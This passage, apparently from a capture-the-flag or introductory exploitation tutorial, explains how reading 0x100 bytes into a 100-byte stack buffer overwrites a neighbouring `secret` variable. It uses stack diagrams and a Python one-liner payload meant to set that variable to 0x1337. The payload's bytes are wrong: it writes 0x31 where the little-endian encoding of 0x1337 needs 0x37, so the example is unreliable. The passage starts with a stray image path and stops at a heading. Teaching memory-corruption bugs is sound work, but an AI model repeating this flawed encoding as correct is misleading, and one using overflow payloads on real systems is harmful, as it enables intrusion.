 There's a tiny mistake in this program which will allow us to see the secret. `name` is decimal 100 bytes, however we're reading in hex 100 bytes (=256 decimal bytes)! Let's see how we can use this to our advantage.

If the compiler chose to layout the stack like this:

        `0xffff006c: 0xf7f7f7f7  // Saved EIP
        0xffff0068: 0xffff0100  // Saved EBP
        0xffff0064: 0xdeadbeef  // secret
...
        0xffff0004: 0x0
ESP ->  0xffff0000: 0x0         // name`

let's look at what happens when we read in 0x100 bytes of 'A's.

The first decimal 100 bytes are saved properly:

        `0xffff006c: 0xf7f7f7f7  // Saved EIP
        0xffff0068: 0xffff0100  // Saved EBP
        0xffff0064: 0xdeadbeef  // secret
...
        0xffff0004: 0x41414141
ESP ->  0xffff0000: 0x41414141  // name`

However when the 101st byte is read in, we see an issue:

        `0xffff006c: 0xf7f7f7f7  // Saved EIP
        0xffff0068: 0xffff0100  // Saved EBP
        0xffff0064: 0xdeadbe41  // secret
...
        0xffff0004: 0x41414141
ESP ->  0xffff0000: 0x41414141  // name`

The least significant byte of `secret` has been overwritten! If we follow the next 3 bytes to be read in, we'll see the entirety of `secret` is "clobbered" with our 'A's

        `0xffff006c: 0xf7f7f7f7  // Saved EIP
        0xffff0068: 0xffff0100  // Saved EBP
        0xffff0064: 0x41414141  // secret
...
        0xffff0004: 0x41414141
ESP ->  0xffff0000: 0x41414141  // name`

The remaining 152 bytes would continue clobbering values up the stack.

### Passing an impossible check

How can we use this to pass the seemingly impossible check in the original program? Well, if we carefully line up our input so that the bytes that overwrite `secret` happen to be the bytes that represent 0x1337 in little-endian, we'll see the secret message.

A small Python one-liner will work nicely: `python -c "print 'A'*100 + '\x31\x13\x00\x00'"`

This will fill the `name` buffer with 100 'A's, then overwrite `secret` with the 32-bit little-endian encoding of 0x1337.

### Going one step further
